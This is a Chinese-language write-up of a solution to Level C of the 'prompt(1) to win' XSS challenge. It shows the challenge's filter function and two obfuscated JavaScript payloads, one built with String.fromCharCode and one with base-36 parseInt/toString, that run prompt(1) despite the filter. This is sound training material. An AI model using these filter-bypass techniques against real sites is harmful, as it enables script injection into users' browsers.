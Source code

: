 ## [[prompt(1) to win](http://prompt.ml)] [[Level C - ノ┬─┬ノ ︵ ( \\o°o)\\](http://prompt.ml/12)] [[解题报告](http://exp-blog.com/2019/03/25/pid-3723/)]

------

## 题目

```javascript
function escape(input) {
    // in Soviet Russia...
    input = encodeURIComponent(input).replace(/'/g, '');
    // table flips you!
    input = input.replace(/prompt/g, 'alert');

    // ノ┬─┬ノ ︵ ( \o°o)\
    return '<script>' + input + '</script> ';
}
```

## 解题报告

这题与 【[Level A – (╯°□°）╯︵ ┻━┻](https://github.com/lyy289065406/CTF-Solving-Reports/tree/master/prompt/Level%2010%20-%20%28%E2%95%AF%C2%B0%E2%96%A1%C2%B0%EF%BC%89%E2%95%AF%EF%B8%B5%20%E2%94%BB%E2%94%81%E2%94%BB)】 十分相似。

区别在于 `replace` 的 `prompt` 和 单引号 `'` 的顺序反转了。

但是无论顺序如何，过滤后可以使用的字符都只剩下  `a-z`、 `A-Z`、`0-9`、 `.`、 `(`、 `)`、 `!`、 `~`、 `*` 。

因此这题直接使用 【[Level A – (╯°□°）╯︵ ┻━┻](https://github.com/lyy289065406/CTF-Solving-Reports/tree/master/prompt/Level%2010%20-%20%28%E2%95%AF%C2%B0%E2%96%A1%C2%B0%EF%BC%89%E2%95%AF%EF%B8%B5%20%E2%94%BB%E2%94%81%E2%94%BB)】 的 payload 就可以 pass ：

```javascript
eval(String.fromCharCode(112).concat(String.fromCharCode(114)).concat(String.fromCharCode(111)).concat(String.fromCharCode(109)).concat(String.fromCharCode(112)).concat(String.fromCharCode(116)).concat(String.fromCharCode(40)).concat(String.fromCharCode(49)).concat(String.fromCharCode(41)))
```

![](http://exp-blog.com/wp-content/uploads/2019/03/8fa55dfbf21eda615a9d4e8d9f1489c3.png)


------------

但其实这题还有另一种更巧妙的解法。

在 JS 中存在一个函数 `parseInt(str, radix)` 。

默认情况下，`radix = 10`，即它可以把十进制的数字字符串转换成十进制数。

但是通过调整进制数 `radix` ，它可以把其他进制的字符串转换成十进制数。

而当 `radix = 36` 时。它可以把只包含 `0-9a-z` （大小写不敏感）的字符串转换成十进制数。

于是我们可以把 `prompt`  字符串转换成十进制数：`parseInt("prompt", 36)` ，得到 `1558153217` 。

![](http://exp-blog.com/wp-content/uploads/2019/03/a43377aa5be66084263005a782b9d068.png)

而要将十进制数字还原成字符串，则可以使用另一个函数 `toString(radix)` （默认情况下 `radix = 10` ）。

即可以使用此方法 `(1558153217).toString(36)` 还原得到 `prompt` 字符串：

![](http://exp-blog.com/wp-content/uploads/2019/03/85b16301a4c69f8e65057c0e757daf53.png)

于是最开始的 payload 就开始简化成这样：

```javascript
eval((1558153217).toString(36).concat(String.fromCharCode(40)).concat(1).concat(String.fromCharCode(41)))
```

>  注：【[Level A – (╯°□°）╯︵ ┻━┻](https://github.com/lyy289065406/CTF-Solving-Reports/tree/master/prompt/Level%2010%20-%20%28%E2%95%AF%C2%B0%E2%96%A1%C2%B0%EF%BC%89%E2%95%AF%EF%B8%B5%20%E2%94%BB%E2%94%81%E2%94%BB)】 同样可以使用这个 payload 完成挑战。

![](http://exp-blog.com/wp-content/uploads/2019/03/c914d38fa8e27544a0f70ae8fbd018c4.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
